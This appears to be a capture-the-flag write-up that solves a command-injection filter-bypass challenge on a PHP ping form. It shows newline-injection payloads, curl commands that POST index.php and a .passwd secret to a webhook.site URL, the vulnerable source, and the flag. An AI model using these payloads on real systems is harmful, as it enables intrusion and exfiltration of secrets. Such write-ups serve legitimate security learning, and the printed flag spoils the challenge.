 ```yaml
---
layout: default
title: Command-injection-Filter-bypass
---
```


When sending the message, we only get `Ping OK` or `Syntax Error`. 
I looked here [command injection PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/), and tried the newline technique.

This is the payload:
```
127.0.0.1;
sleep 5
```
![delay PoC](./images/Command-injection-Filter-bypass_sleep.png)

Okay, so let's try exfiltrate the data, will try `curl` to our webhook: (you should use burp and url-encode the payload)
```
127.0.0.1;
curl "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```
![curl working](./images/Command-injection-Filter-bypass_simple_curl.png)

Now, let's give the file content as payload for `POST` request:
```
127.0.0.1;
curl -d @index.php "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```


This is what we get:
```php
<html><head><title>Ping Service</title></head><body><form method="POST" action="index.php">        <input type="text" name="ip" placeholder="127.0.0.1">        <input type="submit"></form><pre><?php $flag = "".file_get_contents(".passwd")."";if(isset($_POST["ip"]) && !empty($_POST["ip"])){        $ip = @preg_replace("/[\\\$|`;&<>]/", "", $_POST["ip"]);	//$ip = @str_replace(['\\', '$', '|', '`', ';', '&', '<', '>'], "", $_POST["ip"]);        $response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$ip."'");        $receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);        if ($out[1]=="3")         {                echo "Ping OK";        }        elseif ($out[1]=="0")        {                echo "Ping NOK";        }        else        {                echo "Syntax Error";        }}?></pre></body></html>
```

Inside this we can see this line:
```php
$flag = "".file_get_contents(".passwd")."";
```

So, let's get this file content:
```
127.0.0.1;
curl -d @.passwd "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```
![FINAL](./images/Command-injection-Filter-bypass_FINAL.png)

**Flag:** ***`c4K04dtIaJsuWdi`***
